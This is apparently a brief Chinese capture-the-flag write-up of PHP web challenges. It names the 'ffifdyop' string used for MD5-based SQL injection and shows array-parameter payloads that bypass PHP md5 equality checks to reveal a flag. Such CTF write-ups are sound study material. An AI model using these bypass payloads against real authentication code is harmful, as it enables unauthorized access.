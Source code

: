 奇妙的字符串
ffifdyop
[神奇的ffifdyop | 沉铝汤的破站 (chenlvtang.top)](https://chenlvtang.top/2020/06/02/%E7%A5%9E%E5%A5%87%E7%9A%84ffifdyop/)

第二个的线索在 HTML 注释里
```html
<!--
$x= $GET['x'];
$y = $_GET['y'];
if($x != $y && md5($x) == md5($y)){
    ;
-->
```

数组绕过
```url
?x[]=1&y[]=3
```

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['wqh']!==$_POST['dsy']&&md5($_POST['wqh'])===md5($_POST['dsy'])){
    echo $FLAG;
} 
```
继续数组绕过
```yrl
wqh[]=1&dsy[]=2
```

